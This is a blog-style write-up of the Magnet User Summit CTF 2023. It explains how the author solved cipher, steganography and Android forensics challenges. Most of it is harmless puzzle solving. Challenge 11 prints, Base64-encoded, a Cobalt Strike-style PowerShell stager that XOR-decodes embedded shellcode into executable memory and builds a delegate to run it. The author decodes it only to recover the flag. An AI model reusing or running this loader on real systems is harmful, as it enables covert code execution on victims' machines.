


# Magnet User Summit CTF 2023

Just a little bit of background, this was my second ever CTF attended, and it was really, really fulfilling to say the least. I managed to solve almost all the cryptography challenges (under Cipher) and also dabbled a bit in Android Forensics! Also, I'm glad to have achieved top 25%, especially since most of the other participants were seasoned professionals in DFIR :D

<figure><figcaption></figcaption></figure>

## Cipher

### 1. salad are for THE chumps (5pt)

```
Pa'z H-Tl, Thypv
```

Ah, this is a pretty simple challenge, with tools online. "salad" is a cute hint for caesar cipher! This [tool](https://www.dcode.fr/caesar-cipher) has come in handy many times (especially in these challenges) to decrypt the cipher text.&#x20;

<figure><figcaption></figcaption></figure>

There we go! The flag was easily found :D **"It's A-Me, Mario".**\


### 2. typing out all these questions is starting to hurt my Fingers, maybe I should Shift my thinking. (10 pt)

```
yjododyjrg;sh
```

Well, "Shift" is a huge hint here, it refers to the shift cipher on the QWERTY keyboard (wonder how people with AZERTY based keyboards will fare here XD) by shifting each individual letter to the left (qwerty right shift).  I did it manually during the CTF, but I also found that the dcode.fr tool above did have a [keyboard shift cipher tool](https://www.dcode.fr/keyboard-shift-cipher) too.

<figure><figcaption></figcaption></figure>

We can see qwerty shift to the right gets **"thisistheflag"** as the flag.

### 3. The earth's rotation really makes my day. (10 pt)

```
(9E0:D0E960A2DDH@C5
```

Seems like "rotation" is a hint, so I went for the ROT ciphers. But there are several different ROT ciphers, and I had to use the [dCode.fr cipher identifier tool](https://www.dcode.fr/cipher-identifier), which identified the cipher as:

<figure><figcaption></figcaption></figure>

Hence, going to the [ROT-47 Cipher brute force tool](https://www.dcode.fr/rot-47-cipher), I got "**Wht\_is\_the\_password**" as the flag.


### 4. I like the trailer for this movie. Can't wait to see it in theaters! (25 pt)

And now the fun begins! The challenge file can be downloaded [here](https://github.com/Kairos-T/Magnet-User-Summit-2023-CTF/blob/main/movie.jpg), but the jpg is shown below.

&#x20;

I used a tool called [Aperi'Solve](https://aperisolve.fr/) which uses tools like zsteg, steghide, outguess, exiftool, binwalk, foremost and strings... basically, tools for steganography analysis. So, input the image through the tool and Zsteg, Steghide, Outguess and the other tools didn't give much information.&#x20;

I scrolled down to the strings and saw this:

<figure><figcaption></figcaption></figure>

My friend (shoutout to Bowen) did tell me before that Base64 encoding are known to  end with "==" at the end, so I just looked for any [Base64 decoders](https://www.base64decode.org/) online.&#x20;

<figure><figcaption></figcaption></figure>

And there, the flag was "**This\_is\_not\_an\_endorsement\_of the\_movie\_Puss\_In\_Boots\_The\_Last\_Wish**". \


### 5. people Online keep telling me my Style Suxx (25 pt)

This is another steganography challenge, and the image file can be downloaded [here](https://github.com/Kairos-T/Magnet-User-Summit-2023-CTF/blob/main/cat2.png).

.png>)

Look at this cutie patootie! Anyway, I used [Aperi'Solve](https://aperisolve.fr/) for this as well. And the first tool at the top, Zsteg, was the solution! Although admittedly, I did scroll past it at the start :P

<figure><figcaption></figcaption></figure>

And yes, that is the flag. "Y**ou have made it mate!!!!!!!!!!!!!!!!!!! GOOD LUCK :)**"


### 6. Rapidly making my way through the Machete Order (25 pt)


```
IklmIHlvdSBvbmx5IGtuZXcgdGhlIHBvd2VyIG9mIHRoZSBkYXJrIHNpZGUuIiDigJQoVGhlIEVtcGlyZSBTdHJpa2VzIEJhY2spCgo==
```


Scroll through (if needed) to the end of the code block, and you will see it again, the two equal signs, "==". So I just used the Base64 decoder.&#x20;

The flag was ""**If you only knew the power of the dark side." —(The Empire Strikes Back)**"\
\


### 7. As long as more than Zer0 people enjoy these challanges I'd be happy Width that! (25 pt)


```
I really enjoyed the BlueMonkey 4n6 video on the last ciph‌​‌​‌​​⁠‌‌​‌​​​⁠‌‌​‌​​‌⁠‌‌‌​​‌‌⁠‌​‌‌‌‌‌⁠‌​​​​‌⁠‌​​‌​​⁠‌‌‌​‌​​⁠‌‌​‌​​​⁠‌‌​​‌​‌⁠‌​​​‌‌​⁠‌‌‌​‌​‌⁠‌‌​‌‌​​⁠‌‌​‌‌​​⁠‌​​​‌‌​⁠‌​​‌‌​​⁠‌​​​​​‌⁠‌​​​‌‌‌er questions. If you enjoy these challenges let us know!
```


This was a confusing challenge for me, and I had to use \*ahem\* ChatGPT to help me figure out how to solve this. I knew that there was some kind of hint going on with "Zer0" and "Width" but I couldn't figure it out (probably because the characters were zero width =.=)

In the end, I used a [Zero Width Steganography Solver tool](https://neatnik.net/steganographr/#results) to get the flag.

<figure><figcaption></figcaption></figure>

Pretty cool challenge in my opinion. The flag was "**This\_!$theFullFLAG**"\


### 8. SomeTimes its nicE to just stop workinG and searcH the Internet for gooD mEmes. (25 pt)

Another image steganography challenge! Image file can be downloaded [here](https://github.com/Kairos-T/Magnet-User-Summit-2023-CTF/blob/main/challenge.jpg).


Similarly, I used [Aperi'Solve](https://aperisolve.fr/) for this challenge. Now that I realise, the question did hint at Steghide, a steganography tool.&#x20;

<figure><figcaption></figcaption></figure>

Simply download the file and viewing message.txt showed this

<figure><figcaption></figcaption></figure>

Flag: "**eleven\_is\_more\_than\_ten**"

### 9. Sometimes I wish we could visualize music (50 pt)

This challenge was an audio steganography challenge, and the challenge file can be downloaded here.



There is a free tool called [Audacity](https://www.audacityteam.org/download/) which I used to solve this challenge. Opening the file in Audacity shows the waveform as shownw below, which didn't give much information. So I toggled to the spectrogram.&#x20;

<figure><figcaption></figcaption></figure>

And there it was!

<figure><figcaption></figcaption></figure>

The flag was "**Popcorn**".

### 10. whiterose.wav (75 pt)

This is yet another audio steganography challenge, but I didn't manage to solve it during the CTF. I did eventually get around solving it afterwards though, by getting hints from the community.&#x20;

The community pointed me towards searching up "whiterose.wav" on Google, and I got to the [fandom page](https://mrrobot.fandom.com/wiki/Eps1.7\_wh1ter0se.m4v#Technology).&#x20;

Scrolling through the page, I saw this:

<figure><figcaption></figcaption></figure>

Which hinted me to use the free software, [Deepsound](http://jpinsoft.net/DeepSound/). Inputting the file into Deepsound showed that there was a secret file in it, and I just had to extract that file.

<figure><figcaption></figcaption></figure>

The file was just a text document file with the flag, "**WOW! You found another flag! Keep up the great work!**".&#x20;

<figure><figcaption></figcaption></figure>

### 11. Cobalt Strike: A Necessary Evil? (75 pt)

This was another challenge that I couldn't solve, and I had to approach the Magnet community for help :")

The challenge was a long chunk of gibberish text, ending with, yet again, "==".&#x20;


```
U2V0LVN0cmljdE1vZGUgLVZlcnNpb24gMgoKZnVuY3Rpb24gZnVuY19nZXRfcHJvY19hZGRyZXNzIHsKCVBhcmFtICgkdmFyX21vZHVsZSwgJHZhcl9wcm9jZWR1cmUpCQkKCSR2YXJfdW5zYWZlX25hdGl2ZV9tZXRob2RzID0gKFtBcHBEb21haW5dOjpDdXJyZW50RG9tYWluLkdldEFzc2VtYmxpZXMoKSB8IFdoZXJlLU9iamVjdCB7ICRfLkdsb2JhbEFzc2VtYmx5Q2FjaGUgLUFuZCAkXy5Mb2NhdGlvbi5TcGxpdCgnXFwnKVstMV0uRXF1YWxzKCdTeXN0ZW0uZGxsJykgfSkuR2V0VHlwZSgnTWljcm9zb2Z0LldpbjMyLlVuc2FmZU5hdGl2ZU1ldGhvZHMnKQoJJHZhcl9ncGEgPSAkdmFyX3Vuc2FmZV9uYXRpdmVfbWV0aG9kcy5HZXRNZXRob2QoJ0dldFByb2NBZGRyZXNzJywgW1R5cGVbXV0gQCgnU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLkhhbmRsZVJlZicsICdzdHJpbmcnKSkKCXJldHVybiAkdmFyX2dwYS5JbnZva2UoJG51bGwsIEAoW1N5c3RlbS5SdW50aW1lLkludGVyb3BTZXJ2aWNlcy5IYW5kbGVSZWZdKE5ldy1PYmplY3QgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLkhhbmRsZVJlZigoTmV3LU9iamVjdCBJbnRQdHIpLCAoJHZhcl91bnNhZmVfbmF0aXZlX21ldGhvZHMuR2V0TWV0aG9kKCdHZXRNb2R1bGVIYW5kbGUnKSkuSW52b2tlKCRudWxsLCBAKCR2YXJfbW9kdWxlKSkpKSwgJHZhcl9wcm9jZWR1cmUpKQp9CgpmdW5jdGlvbiBmdW5jX2dldF9kZWxlZ2F0ZV90eXBlIHsKCVBhcmFtICgKCQlbUGFyYW1ldGVyKFBvc2l0aW9uID0gMCwgTWFuZGF0b3J5ID0gJFRydWUpXSBbVHlwZVtdXSAkdmFyX3BhcmFtZXRlcnMsCgkJW1BhcmFtZXRlcihQb3NpdGlvbiA9IDEpXSBbVHlwZV0gJHZhcl9yZXR1cm5fdHlwZSA9IFtWb2lkXQoJKQoKCSR2YXJfdHlwZV9idWlsZGVyID0gW0FwcERvbWFpbl06OkN1cnJlbnREb21haW4uRGVmaW5lRHluYW1pY0Fzc2VtYmx5KChOZXctT2JqZWN0IFN5c3RlbS5SZWZsZWN0aW9uLkFzc2VtYmx5TmFtZSgnUmVmbGVjdGVkRGVsZWdhdGUnKSksIFtTeXN0ZW0uUmVmbGVjdGlvbi5FbWl0LkFzc2VtYmx5QnVpbGRlckFjY2Vzc106OlJ1bikuRGVmaW5lRHluYW1pY01vZHVsZSgnSW5NZW1vcnlNb2R1bGUnLCAkZmFsc2UpLkRlZmluZVR5cGUoJ015RGVsZWdhdGVUeXBlJywgJ0NsYXNzLCBQdWJsaWMsIFNlYWxlZCwgQW5zaUNsYXNzLCBBdXRvQ2xhc3MnLCBbU3lzdGVtLk11bHRpY2FzdERlbGVnYXRlXSkKCSR2YXJfdHlwZV9idWlsZGVyLkRlZmluZUNvbnN0cnVjdG9yKCdSVFNwZWNpYWxOYW1lLCBIaWRlQnlTaWcsIFB1YmxpYycsIFtTeXN0ZW0uUmVmbGVjdGlvbi5DYWxsaW5nQ29udmVudGlvbnNdOjpTdGFuZGFyZCwgJHZhcl9wYXJhbWV0ZXJzKS5TZXRJbXBsZW1lbnRhdGlvbkZsYWdzKCdSdW50aW1lLCBNYW5hZ2VkJykKCSR2YXJfdHlwZV9idWlsZGVyLkRlZmluZU1ldGhvZCgnSW52b2tlJywgJ1B1YmxpYywgSGlkZUJ5U2lnLCBOZXdTbG90LCBWaXJ0dWFsJywgJHZhcl9yZXR1cm5fdHlwZSwgJHZhcl9wYXJhbWV0ZXJzKS5TZXRJbXBsZW1lbnRhdGlvbkZsYWdzKCdSdW50aW1lLCBNYW5hZ2VkJykKCglyZXR1cm4gJHZhcl90eXBlX2J1aWxkZXIuQ3JlYXRlVHlwZSgpCn0KCklmIChbSW50UHRyXTo6c2l6ZSAtZXEgOCkgewoJW0J5dGVbXV0kdmFyX2NvZGUgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCczMnVneDlQTDZ3QUFBR0p5WW5OeGNuVnJFdkZHYTZoeFEydW9jVHRycUhFRGE2aFJjMnNzbEdscGJoTHFheExqang5Q1h5RVBBMkxpNmk1aUl1TEJ6bkZpY211b2NRT29ZUjlySXZORm9sczdLQ0ZXVWFpanF3QUFBR3VtNDFkRWF5THpjNmhyTzJlb1l3TnFJdlBBZFd2YzZtS29GNnRySXZWdUV1cHJFdU9QWXVMcUxtSWk0aHZEVnRKdklHOEhLMllhOGxiN2UyZW9Zd2RxSXZORllxZ3ZhMmVvWXo5cUl2TmlxQ2VyYXlMelludGllMzE2ZVdKN1lucGllV3VnendOaWNkekRlMko2ZVd1b01jcHMzTnpjZmtrQWFwMVVTazFLVFVaWEFHSjFhcXJGYjZyU1lwbHZWQVVrM1BackV1cHJFdkZ1RXVOdUV1cGljMkp6WXBrWmRWcUUzUGJJVUhscnF1SmltN004QUFCdUV1cGljbUp5U1NCaWNtS1pkS3E4NWR6MnlIcDRhNnJpYXhMeGFxcjdiaExxY1VzQUlXT25jWEZpbWNoMkRSamM5bXVxNVd1ZzRITkpLWHhycXRKcnF2bHE1T1BjM056Y2JoTHFjWEZpbVE0bE8xamM5cWJqTEthK0lnQUFhOXpzTEtldklnQUF5UERLeHlJQUFNdUIzTnpjREJGRlVuY0FpamIvSmRPQmNjb05DZlJ0L2dZRTFDNUtCZnBoNDdJY0NSYmhrRFQvTS9ISDlUYVB3YnVneU4wSGs1QzdaZFZhb2dWb1VvTXpBLzdWaGdXQ3FsUm16S2tIcm9LbmVQYmZXUUIyVUVaUkRtSkVSazFYR1FOdVRGbEtUMDlDREJjTkV3TUxRRXhPVTBKWFNrRlBSaGdEYm5CcVpnTVVEUk1ZQTNSS1RVZE1WRkFEYlhjREZRMFRDaTRwQUVENEVUYnluMzBzeEM1V2ZlQWsvTzZ6ekp4QktEMmhtZGowVGx4N0VXSXZlU01wZDVtU3p3Y0lhUHBvQXF2RUZPM25DcHB5VmN1N0RZdkNZNHhwQUNZbkFSM1pIdXN0Sy9mVTVwRFZzdXpUK0dadDFQZjlsL3l5Yndodm1pZjFFUWFBK3dHUGx3aW8vQU1iTmhnbEhYS1dCN0RnbDdHZmk1eVh0Z1hRaWxzZXpFRnBLUXhhQjlMdHI1TlhMSW9sdmozSks5czhiZXVMVXc4V2h4MUwzZ2JBcUdPRjMyMEZjMlQ4OG9SREpyZHo4QTNXQVN2VHdBM3hJa2dON0I5UXRCMFJuYjE2WCt3TVhXb0l1eXhHeVpOY2RVZXVGd3dyU2NidWxLeDhxYVJoQ2FYeldTQ2hGclBub0h0Z2RRY0FZcDNUbG9GMTNQWnJFdXFaQUFCakFHS2JBRE1BQUdLYVl3QUFBR0taZTRkd3h0ejJhN0J3Y0d1cXhHdXEwbXVxK1dLYkFBTUFBR3FxMm1LWk1iV3F3ZHoyYTZEbkE2YmpWNVZGcUNSckl1Q200MWIwZTN0N2F5WUFBQUFBYytETHZON2MzSHBNVm54bFRGWk5SM3gzUzBaOFlCRUFNUmQxV3c9PScpCgoJZm9yICgkeCA9IDA7ICR4IC1sdCAkdmFyX2NvZGUuQ291bnQ7ICR4KyspIHsKCQkkdmFyX2NvZGVbJHhdID0gJHZhcl9jb2RlWyR4XSAtYnhvciAzNQoJfQoKCSR2YXJfdmEgPSBbU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLk1hcnNoYWxdOjpHZXREZWxlZ2F0ZUZvckZ1bmN0aW9uUG9pbnRlcigoZnVuY19nZXRfcHJvY19hZGRyZXNzIGtlcm5lbDMyLmRsbCBWaXJ0dWFsQWxsb2MpLCAoZnVuY19nZXRfZGVsZWdhdGVfdHlwZSBAKFtJbnRQdHJdLCBbVUludDMyXSwgW1VJbnQzMl0sIFtVSW50MzJdKSAoW0ludFB0cl0pKSkKCSR2YXJfYnVmZmVyID0gJHZhcl92YS5JbnZva2UoW0ludFB0cl06Olplcm8sICR2YXJfY29kZS5MZW5ndGgsIDB4MzAwMCwgMHg0MCkKCVtTeXN0ZW0uUnVudGltZS5JbnRlcm9wU2VydmljZXMuTWFyc2hhbF06OkNvcHkoJHZhcl9jb2RlLCAwLCAkdmFyX2J1ZmZlciwgJHZhcl9jb2RlLmxlbmd0aCkKCgkkdmFyX3J1bm1lID0gW1N5c3RlbS5SdW50aW1lLkludGVyb3BTZXJ2aWNlcy5NYXJzaGFsXTo6R2V0RGVsZWdhdGVGb3JGdW5jdGlvblBvaW50ZXIoJHZhcl9idWZmZXIsIChmdW5jX2dldF9kZWxlZ2F0ZV90eXBlIEAoW0ludFB0cl0pIChbVm9pZF0pKSkKfQ==
```


This time, I used [CyberChef](https://gchq.github.io/CyberChef/) instead, another useful tool for decoding ciphers.&#x20;

<figure><figcaption></figcaption></figure>

I saw another chunk of encrypted text there ending with "==" but trying to decode it from Base64 was of no help. I tried to run that code on Visual Studio Code, but I was just met with errors.&#x20;

Seeking help from the community, they prompted me to look closer into the script, which showed me&#x20;

```
for ($x = 0; $x -lt $var_code.Count; $x++) {
    $var_code[$x] = $var_code[$x] -bxor 35
```

And there it was! -bxor is the Bitwise XOR (pronounced eks-or, learn more [here](https://en.wikipedia.org/wiki/Bitwise\_operation))

I pasted the \*second\* encoded Base64 text and also added XOR to the recipe like this:

<figure><figcaption></figcaption></figure>

And there the flag is! "**You\_Found\_The\_C2**". \*Sweats\* That was difficult. But we are done with the cipher challenges :D


## Android

Before attempting the challenges, the Logical Data files can be downloaded [here](https://go.magnetforensics.com/e/52162/L20Logical20Image20-20Data-tar/lhwfxn/1349185105?h=zaVWVv5u5E0hK9RArfi7ELhxmtH0HxXwMWiOi29zbok).

I used a free trial of [Magnet AXIOM](https://www.magnetforensics.com/products/magnet-axiom/) during the CTF, but I will be using another useful tool, [ALEAPP](https://github.com/abrignoni/ALEAPP) for this. You can view the README.md file for the instructions to download ALEAPP.&#x20;

### 1. So much social media... Need a good handle... (5 pt)

> What username was used for Twitter?

Filtering into the Accounts\_ce report of the processed data easily showed the twitter handle  of the account.

<figure><figcaption></figcaption></figure>

Flag: LTina1900


### 2. Generic web surfing (5 pt)

> What was the default browser used on this device?

During the CTF, I just made a guess on this question and got the flag, but you still can look for the answer from the processed data.

(Will add in the screencap soon)

Flag: Chrome


### 3. 64 bits of cellular privileges... (5 pt)

> What is the IMSI of ths device?&#x20;

Again, ALEAPP has a function for gatherin device information:

report home > device details

<figure><figcaption></figcaption></figure>

Flag: 272023204347291


### 4. Out w ith the old and in with the new! (5 pt)

> What version of android was on the system?

From the device details (View image from Challenge 3), the Android version can be seen in the first line.&#x20;

Flag: 12


### 5. Lets address this question (5 pt)

> What is the bluetooth mac address of this device?

As with the previous challenge, the MAC address can be found in the device details, under Bluetooth address.

Flag: 58:CB:52:4E:67:55


### 6. Somebody is picky! (5 pt)&#x20;


### 7. Wa-was that a gh-gh-ghost? (5 pt)


### 8. Built Different (5 pt)

> What is the build version of this device?

Yet again, it can be found in the device details of the ALEAPP processed data.&#x20;

Flag: 8177914


This article will continue to be updated :D come back another time!


